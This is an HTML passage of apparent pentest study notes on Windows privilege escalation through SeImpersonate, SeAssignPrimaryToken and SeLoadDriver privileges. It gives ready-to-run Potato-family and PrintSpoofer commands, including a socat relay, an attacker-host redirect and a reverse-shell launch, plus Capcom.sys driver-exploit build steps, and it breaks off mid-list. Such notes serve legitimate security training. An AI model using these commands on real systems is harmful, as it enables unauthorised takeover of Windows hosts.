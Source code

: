     <h2>Prilivege Abuse</h2>
    <li>SeImpersonatePrivilege</li>
    <li>Rotten Potato</li>
    <ul>
        <li>Works up until sometime in 2019. </li>
        <li>Patched on latest Windows 10.</li>
    </ul>
    <li>Juicy Potato</li>
    <ul>
        <li>JuicyPotato.exe -l 1337 -p &lt;program&gt; -t * -c &lt;{CLSID}&gt;</li>
    </ul>

    <li>Rogue Potato</li>
    <ul>
        <li>More advanced and complicated than previous potato exploits.</li>
        <li>Instructions</li>
        <ul>
            <li>Listener on Kali: sudo socat tcp-listen:135,reuseaddr,fork tcp:&lt;Victim ip address&gt;:9999</li>
            <li>On victim Windows machine: RoguePotato.exe -r 10.0.0.5 -l 9999 -e "C:\windows\system32\cmd.exe"</li>
        </ul>
    </ul>
    <li>PrintSpoofer</li>
    <ul>
        <li>Targets print spooler service</li>
        <li>Does not require any port forwarding like potato exploits.</li>
        <li>The entire exploit runs on the target machine. </li>
        <li>Requires C++ redistributable is installed.</li>
        <li>PrintSpoofer.exe -i -c "C:\reverse\shell.exe"</li>
    </ul>
    <li>SeAssignPrimaryTokenPrivilege</li>
    <ul>
        <li>Potato Exploits (SeImpersonatePrivilege)</li>
    </ul>
    <li>SeLoadDriverPrivilege</li>
    <ul>
        <li>Download these files:</li>
        <ul>
            <li>Capcom.sys from fuzzysecurity</li>
            <li>https://github.com/TarlogicSecurity/EoPLoadDriver/</li>
            <ul>
                <li>eoploaddriver.cpp</li>
            </ul>
            <li>Exploitcapcom from github</li>
        </ul>
        <li>Compile EoPLoadDriver in visual studio</li>
        <ul>
            <li>Create a new project</li>
            <ul>
                <li>Console app</li>
                <li>Name it LoadDriver</li>
            </ul>
            <li>Open LoadDriver.cpp</li>
            <ul>
                <li>Replace all contents with contents from eoploaddriver.cpp</li>
            </ul>
            <li>Select "Release" and "x64"</li>
            <li>Build --> Rebuild Solution.  LoadDriver.exe should be created.</li>
        </ul>
        <li>Compile ExploitCapCom</li>
        <ul>
            <li>File --> Open -- Project/Solution</li>
            <ul>